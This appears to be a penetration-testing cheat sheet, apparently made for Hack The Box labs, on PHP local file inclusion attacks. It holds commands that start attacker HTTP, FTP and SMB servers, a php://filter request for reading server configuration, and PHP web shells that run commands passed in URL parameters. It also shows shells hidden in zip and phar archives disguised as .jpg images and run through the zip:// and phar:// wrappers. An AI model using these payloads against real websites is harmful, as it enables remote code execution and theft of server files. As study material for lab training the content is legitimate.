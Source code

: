 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
```bash
sudo python3 -m pyftpdlib -p 21
```
SMB Server
```bash
impacket-smbserver -smb2support share $(pwd)
```
Checking PHP Configurations
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Base64 PHP Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

# Useful Payloads
```php
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
```
```
[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
```
(http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%23shell.php&cmd=id)
```
### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```
Code: php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
